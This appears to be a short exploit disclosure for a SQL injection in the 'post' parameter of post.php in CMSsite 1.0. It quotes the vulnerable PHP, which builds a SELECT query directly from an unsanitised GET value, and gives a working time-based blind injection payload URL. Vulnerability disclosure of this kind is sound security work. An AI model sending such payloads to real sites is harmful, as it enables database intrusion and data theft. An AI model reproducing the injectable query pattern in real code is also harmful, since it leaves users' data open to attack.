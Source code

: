 EXP
---

    # Exploit Title: CMSsite 1.0 - 'post' SQL Injection

    # Exploit Author: Mr Winst0n
    # Author E-mail: manamtabeshekan[@]gmail[.]com
    # Discovery Date: February 17, 2019
    # Vendor Homepage: https://github.com/VictorAlagwu/CMSsite
    # Software Link : https://github.com/VictorAlagwu/CMSsite/archive/master.zip
    # Tested Version: 1.0
    # Tested on: Kali linux, Windows 8.1


    # PoC:
    # Vulnerable File: post.php
    # Vulnerable Parameter : post

    if (isset($_GET['post'])) {
        $post = $_GET['post'];
    }
    $query = "SELECT * FROM posts WHERE post_id=$post";
    $run_query = mysqli_query($con, $query);



    # Payload: http://localhost/CMSsite/post.php?post=1%20and%20(sleep(10))
